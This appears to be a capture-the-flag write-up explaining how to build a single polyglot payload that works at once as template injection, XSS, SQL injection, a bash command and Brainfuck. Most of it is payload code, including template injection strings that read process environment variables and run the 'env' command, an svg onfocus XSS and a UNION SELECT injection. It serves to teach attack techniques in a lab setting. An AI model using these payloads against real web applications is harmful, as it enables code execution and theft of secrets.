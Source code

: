 - Template Injection

```jinja2
{%if 0%}{{''.constructor.constructor("return process.env")()}}{% endif %}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
```

I began by merge XSS and SQL because it begin with the same idea and we can use common multi line comment between js and SQLite (`/* */`)

Little detail, I use the `--` sql comment end line. But this doesn't exist in JS. But the object `-->` exist... let use it :)  

```html
1/*/"/* 
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

Because we are inside SQL or JS string or comment, we can easily add template injection :

```html
1/*/"/*{%if 0%}{{''.constructor.constructor("return process.env")()}}{% endif %}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

 And then, to ADD bash, we have to make the command id work, and to to that we have to use Bash comment char : `#` and force the id command line to finish with `;`

```html
1/*;#/"/*{%if 0%}{{''.constructor.constructor("return process.env")()}}{% endif %}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
EOF
env
*/--></script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>'
UNION SELECT flag from flag; --
```

### Merging Brainfuck

As you can see in the payload above, we use many brainfuck char and many no brainfuck char. 

Fortunately, all char outside of the brainfuck charset are just skipped by the interpreter ! 

But all branfuck valid char break our payload... ** only if brainfuck had to execute it ** exactly as the template injection, if we put or code in a conditional statement who never met the condition, the code will never be executed. 

So how to do that in brainfuck ? 

To remember, `[]` will execute the code inside the brackets only if the memory slot pointed by the cursor is not 0... so we just have to set it at 0 and put all payloads containing valid char inside brackets !!! 

(because we have to go to a memory slot with 0 as value, we must have to print the first flag's part before all other payload)
